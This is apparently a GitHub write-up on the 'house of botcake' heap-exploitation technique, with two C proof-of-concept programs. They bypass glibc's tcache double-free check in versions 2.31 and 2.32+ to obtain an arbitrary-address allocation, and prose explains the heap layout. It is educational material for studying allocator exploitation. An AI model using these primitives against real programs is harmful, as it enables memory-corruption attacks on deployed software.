



<details>
<summary><strong>Description</strong></summary>
<p>

A new [patch](https://sourceware.org/git/?p=glibc.git;a=commit;h=bcdaad21d4635931d1bd3b54a7894276925d081d) to restrict tcache double free...
> **TL;DR**:  when the chunk goes to tcache, chunk's `bk ptr` will be assign to key (point to tcache_per_thread (old libc) or random (new libc)) value. Whenever the program try to free a chunk, it will check if that chunk has key value assigned, if yes -> probably a double free...

house of botcake core mindset is to find a way modify key value, bypass this restriction...

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://4xura.com/pwn/house-of-botcake/
- https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_botcake.c

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> I compiled this with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long stack_var[4], *x[7];

    for(int i = 0; i < 7; i++) x[i] = malloc(0x100);
    long *prev = malloc(0x100);
    long *a = malloc(0x100); // chunk for later cosolidation
    malloc(0x10); // padding chunk, prevent consolidation

    // cause chunk overlapping
    for(int i = 0; i < 7; i++) free(x[i]); // fill tcache

    free(a); // free victim chunk, goes to unsortedbin
    free(prev); // free previous chunk, make it consolidate with victim chunk
    malloc(0x100); // add the victim chunk to tcache list by taking one out from it and free victim again

    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    long *unsorted = malloc(0x100 + 0x100 + 0x10);
    unsorted[0x110/8] = (long)stack_var ^ ((long)a >> 12); // mangle the pointer since glibc 2.32

    a = malloc(0x100); // get back victim chunk from tcache -> this will put target to tcache top
    long *target = malloc(0x100); // malloc arbitrary address
    target[0] = 0xcafebabe;

    printf("target @ %p == stack_var @ %p\n", target, stack_var);
    printf("stack_var's value: 0x%lx\n", stack_var[0]);
    return 0;
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

the idea is simple, first we set up heap layout then free several chunks, fill the tcache and one goes to unsortedbin (`a` - victim chunk):



as we can see, the victim chunk's `bk ptr` point to `main_arena`...

then we free the `prev` chunk, trigger consolidation of `prev` and `a`:



voila, the `a`'s `bk ptr` is still there...

then we `malloc(0x100)` to take one chunk out from the tcache, make available space (in tcache) for the victim chunk...

and we free chunk `a` again, **remember that chunk `a` was freed** (so there must be double free primitive here)

now chunk `a` must goes to tcache, the program will compare chunk `a` key value (current is pointing to `main_arena`) with thread tcache key (random) value...

it probably pass the check (since they are different) so chunk `a` will goes to tcache...



now chunk `a` exists in both tcache and unsortedbin, we can fengshui to make overlapping chunk...

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

> Compiled with glibc `2.31`

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long stack_var[4], *x[7];

    for(int i = 0; i < 7; i++) x[i] = malloc(0x100);
    long *prev = malloc(0x100);
    long *a = malloc(0x100); // chunk for later cosolidation
    malloc(0x10); // padding chunk, prevent consolidation

    // cause chunk overlapping
    for(int i = 0; i < 7; i++) free(x[i]); // fill tcache

    free(a); // free victim chunk, goes to unsortedbin
    free(prev); // free previous chunk, make it consolidate with victim chunk
    malloc(0x100); // add the victim chunk to tcache list by taking one out from it and free victim again

    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    long *unsorted = malloc(0x100 + 0x100 + 0x10);
    unsorted[0x110/8] = (long)stack_var; // no mangled pointer in glibc 2.31

    a = malloc(0x100); // get back victim chunk from tcache -> this will put target to tcache top
    long *target = malloc(0x100); // malloc arbitrary address
    target[0] = 0xcafebabe;

    printf("target @ %p == stack_var @ %p\n", target, stack_var);
    printf("stack_var's value: 0x%lx\n", stack_var[0]);
    return 0;
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

The idea stay the same, just need to modify the POC a little since there is no mangled ptr mechanics in glibc `2.31`...

</p>
</details>


